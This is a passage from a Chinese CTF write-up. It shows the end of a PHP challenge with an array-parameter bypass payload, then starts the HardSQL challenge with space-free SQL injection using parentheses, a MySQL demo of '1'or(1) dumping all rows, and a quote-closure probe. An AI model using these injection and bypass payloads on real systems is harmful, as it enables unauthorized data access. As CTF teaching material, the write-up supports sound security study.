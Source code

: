 ```php
                echo 'You can not get it !';
            }

        } else {
            die('only one way to get the flag');
        }
    } else {
        echo "You are not a real hacker!";
    }
} else {
    die('Please input first');

}
```

**payload：**

GET`?id[]=a&gg[]=b` POST：`passwd=1234567a`



## [极客大挑战 2019]HardSQL

### 前置知识

这题首先都空格进行了严格过滤。用户输入中不允许带有空格，在无法使用空格的情况下，则需要**多用括号**，在使用括号的过程中，==关键字不允许被括号包裹==

```sql
# or 的左右并没有空格但依然可以正常回显
mysql> select * from str_intruder where id = '1'or(1);
+----+----------+----------+
| id | username | passwd   |
+----+----------+----------+
| 1  | jake     | Aa123456 |
| 2  | Gogo     | Aa123456 |
| 3  | Peo      | Aa123456 |
| 4  | Bob      | Aa123456 |
+----+----------+----------+
4 rows in set (0.00 sec)
```

### 解题流程

**1. 确定闭合方式**

```
username=admin&password=admin'%23
```

<img src="CTF.assets/image-20230622001931287.png" alt="image-20230622001931287" style="zoom:50%;" />
